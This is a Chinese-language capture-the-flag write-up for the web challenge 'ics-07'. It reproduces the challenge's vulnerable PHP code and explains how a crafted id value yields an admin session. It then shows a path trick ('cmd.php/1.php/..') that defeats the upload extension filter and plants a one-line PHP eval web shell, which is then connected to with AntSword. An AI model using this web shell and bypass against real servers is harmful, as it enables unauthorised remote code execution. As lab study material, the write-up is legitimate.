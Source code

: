 ## D4 T2 ics-07

界面有个view-source给了个源码

看了一下发现有上传点

```php
    <?php
     if ($_SESSION['admin']) {
       $con = $_POST['con'];
       $file = $_POST['file'];
       $filename = "backup/".$file;

       if(preg_match('/.+\.ph(p[3457]?|t|tml)$/i', $filename)){
          die("Bad file extension");
       }else{
            chdir('uploaded');
           $f = fopen($filename, 'w');
           fwrite($f, $con);
           fclose($f);
       }
     }
     ?>
```

但是需要拿到admin的session

接着看源码

```php
    <?php
      if (isset($_GET[id]) && floatval($_GET[id]) !== '1' && substr($_GET[id], -1) === '9') {
        include 'config.php';
        $id = mysql_real_escape_string($_GET[id]);
        $sql="select * from cetc007.user where id='$id'";
        $result = mysql_query($sql);
        $result = mysql_fetch_object($result);
      } else {
        $result = False;
        die();
      }

      if(!$result)die("<br >something wae wrong ! <br>");
      if($result){
        echo "id: ".$result->id."</br>";
        echo "name:".$result->user."</br>";
        $_SESSION['admin'] = True;
      }
     ?>
```

如果拿到session需要传入的

floatval($_GET[id]) !== '1' (其实强类型比较怎么这里怎么都可。。。。)

并且 substr($_GET[id], -1) === '9'

并且在数据库中要能查到（放在一起）

好像只有一条记录用空格截断就可

```
payload=/index.php?page=flag&id=1+9&submit=提交#
```

然后可以传文件了

```
con=233&file=233.txt
```

但是

```php
preg_match('/.+\.ph(p[3457]?|t|tml)$/i', $filename)//$匹配末尾
```

把.php/php5等一众后缀名过滤了,怎么让传上去的文件能被php解析呢？

对于这种只检测末尾的

我们可以这样绕过

```
con=<?php @eval($_POST['cmd']);?>&file=cmd.php/1.php/..
```

..是上级目录

相当于会上传到/uploaded/backup/

同时绕过了后缀检测

然后就可以用蚁剑连上去了

### 参考资料

解析漏洞：https://www.guildhab.top/?p=481